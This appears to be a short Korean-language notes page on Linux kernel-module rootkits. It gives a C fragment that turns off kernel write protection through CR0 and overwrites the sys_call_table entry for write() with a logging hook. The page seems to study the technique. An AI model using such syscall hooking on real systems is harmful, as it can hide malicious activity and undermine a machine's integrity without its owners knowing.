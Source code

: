 +++
title  = "rootkit"
toc    = true
weight = 0
+++

## LKM
- kernel내 syscall table에 등록된 syscall의 주소를 변조.
- kernel의 syscall 내부에 inline assembly로 구현된어있는 function들에 대한 offset을 변조.

```c
asmlinkage int new_write (unsigned int x, const char __user *y, size_t size) {
  printk(KERN_EMERG "[+] write() hooked.");

  return original_write(x, y, size);
}

static int __init onload(void) {
  char *kernel_version = kmalloc(MAX_VERSION_LEN, GFP_KERNEL);

  printk(KERN_EMERG "Version: %s\n", acquire_kernel_version(kernel_version));

  find_sys_call_table(acquire_kernel_version(kernel_version));

  printk(KERN_EMERG "Syscall table address: %p\n", syscall_table);
  printk(KERN_EMERG "sizeof(unsigned long *): %zx\n", sizeof(unsigned long*));
  printk(KERN_EMERG "sizeof(sys_call_table) : %zx\n", sizeof(syscall_table));

  if (syscall_table != NULL) {
      write_cr0 (read_cr0 () & (~ 0x10000));
      original_write = (void *)syscall_table[__NR_write];
      syscall_table[__NR_write] = &new_write;
      write_cr0 (read_cr0 () | 0x10000);
      printk(KERN_EMERG "[+] onload: sys_call_table hooked\n");
  } else {
      printk(KERN_EMERG "[-] onload: syscall_table is NULL\n");
  }

  kfree(kernel_version);

  return 0;
}
```
